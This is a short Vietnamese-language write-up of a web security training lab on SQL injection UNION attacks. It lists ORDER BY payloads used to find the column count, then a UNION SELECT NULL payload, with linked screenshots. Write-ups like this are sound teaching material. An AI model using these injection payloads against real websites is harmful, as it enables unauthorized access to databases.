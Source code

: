 # SQL injection UNION attack, determining the number of columns returned by the query

Bài này yêu cầu ta lấy dữ liệu bằng cách dùng `UNION`

Đầu tiên ta thử lần lượt pay load 
- `filter?category=' ORDER BY 1--`
- `filter?category=' ORDER BY 2--`
- `filter?category=' ORDER BY 3--`

![](https://cdn.discordapp.com/attachments/1124588087931043891/1133963396077846528/image.png)

- `filter?category=' ORDER BY 4--`( Tới đây thì web gặp lỗi, từ đó suy ra chỉ có 3 cột trong databases)

![](https://cdn.discordapp.com/attachments/1124588087931043891/1133963623094566983/image.png)

Để đọc dữ liệu từ 3 cột này ta chỉ cần chạy payload `filter?category=' UNION SELECT NULL,NULL,NULL--` 

![](https://cdn.discordapp.com/attachments/1124588087931043891/1133965103469957140/image.png)

